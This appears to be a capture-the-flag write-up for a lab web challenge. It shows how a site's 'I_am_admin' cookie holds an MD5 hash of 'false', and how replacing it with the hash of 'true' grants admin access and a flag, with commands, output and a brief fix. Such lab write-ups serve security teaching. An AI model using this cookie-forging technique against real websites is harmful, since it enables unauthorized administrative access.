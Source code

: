 # Cookie admin

## Exploitation

When checking the cookies of the website, we can see a cookie named `I_am_admin`, wich contain a hash

```
curl -I 'http://192.168.1.48/'   
HTTP/1.1 200 OK
Server: nginx/1.8.0
Date: Tue, 22 Sep 2020 13:31:47 GMT
Content-Type: text/html
Connection: keep-alive
X-Powered-By: PHP/5.3.10-1ubuntu3.19
Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Tue, 22-Sep-2020 14:31:47 GMT
```

Try to crack the hash with crackstation.net

It appears to be a md5 hash for the string `false`

Maybe we can hash the string `true` to be admin?

```
$ echo -n 'true' | md5sum           
b326b5062b2f0e69046810717534cb09  -
```

Try to put this hash on the cookie instead of the `false`

We got the flag!

Script it

```
$ ./exploit.py 
<script>alert('Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3'); </script>
```

## How to fix it?

Use a PHP session id to manage sessions in a better way



